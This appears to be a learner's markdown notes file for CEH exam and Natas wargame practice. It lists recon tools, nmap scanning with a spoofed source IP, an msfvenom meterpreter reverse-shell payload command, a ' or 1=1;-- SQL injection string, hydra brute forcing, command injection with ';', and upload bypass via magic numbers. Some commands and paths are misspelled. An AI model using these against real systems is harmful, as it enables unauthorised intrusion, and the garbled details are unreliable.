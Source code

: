 # CEH
## Commands tips
use `traceroute` for getting we pass what routers to get to network.
## Websites and application tips
> this [site](https://www.iplocation.net/) says the ip is for where, and this [site](who.is) says who create this website.

> for getting special file type in google add `filetype:[type]` after **website domain** and add `site:` before it.
>
> use `maltego` to get datas from a website.

## ip spoofing
ip spoofing means you stealing ip when some ips have access.
we use **nmap** for scaning ports. use it like this:
```console
nmap [ip address] [option] [port]
```
for example for scaning port 80 in specific ip, do like this
```console
nmap 192.168.1.6 -Pn -p 80
```
for changing ip with nmap do this:
```console
nmap -S [new ip] -Pn -p [port] -e [interface] [ip target]
```
## ICMP
### Ping
ping means ip can you here me?
type **one** *successed*
```console
ping 4.2.2.4
# reply from 4.2.2.4: bytes=32 time=30ms TTL=46
```
type **two** *request timed out*: it means somewhere we have problem but we don't know where
```console
ping 4.2.2.4
# request timed out
```
type **three** *destination host unreachable*: you must focus on ***reply from*** destination after that ip is down but may be
```console
ping 4.2.2.4
# reply from 4.2.2.8: destination host unreachable
```
type **four** *destination net unreachable*: it means you don't have access to that network
```console
ping 4.2.24
# reply from 192.168.1.1: destination net unreachable
```
type **five** *admin prohibited*: means admin says don't give access to you
```console
ping 4.2.2.4
# reply from 4.2.2.8: communication with administer prohibited
```
### msfvenom
**msfvenom** use for making a file to add upload as payload.
```console
msfvenom -p windows/meterpreter/reverce_tcp -f war > file.war
```
in here after `-p` we must add our platform and payload type and after `-f` add format and after `>` name the file.

for changing process you can use `migrate`.


for social engineering you can use `setoolkit` but remember you must be **root**.
for remoting desktop you must use `seth`. you can clone it from [here](https://github.com/SySS-Research/Seth)
### sql
for getting username in sql use `' or 1=1;--`
you can use `sqlmap` for checking database

# burt force
check many passwords to get password. we use `hydra`
```console
hydra -l [user] -P [password_list] protocol://ip
```
we have a password list in kali in `/user/share/rockyou.txt/`

# Natas
1- checking directory of website
2- check the robots.txt
> robots.txt is a file that says to **search engine** to what to do

3- whenever we don't have access except an specific adress we can make link on that adress
4- sometimes you need to change the cookies for example log in
5- with `curl` you can get access to some parts of website
6- you can see a page after `?page=`
7- when we have **command** in codes you can seprate command with `;`
8- with grep you can add -r for searching in directory
> we know grep use regex

9- sometimes you must change some cookies for access
10- if you can upload a file, you can change the format and run what you want...(use burpsuit)
11- magic number is a part of your file that shows what type is it. you can add magic number to  the first of your php file to access to uploading it. you can change magic number with `hexeditor`.
